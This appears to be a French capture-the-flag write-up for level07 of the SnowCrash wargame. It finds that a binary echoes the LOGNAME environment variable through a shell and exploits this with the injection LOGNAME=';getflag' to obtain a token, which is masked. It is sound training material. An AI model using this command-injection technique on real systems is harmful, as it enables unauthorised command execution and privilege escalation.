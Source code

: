 # Level07

Nous n'avons qu'un binaire de présent dans le home:

```bash
level07@SnowCrash:~$ ./level07 
level07
```

Regardons avec strings:
```
level07@SnowCrash:~$ strings level07 
...
getenv
...
LOGNAME
/bin/echo %s
...
```

Le programme semble utiliser une variable d'environnement 'LOGNAME', regardons avec 'env'

```bash
level07@SnowCrash:~$ env
...
LOGNAME=level07
...
```
Exactement ce que nous affiche le programme en sortie standard.

Essayons une injection basique:

```bash
level07@SnowCrash:~$ LOGNAME=";getflag" ./level07 

Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXX
```
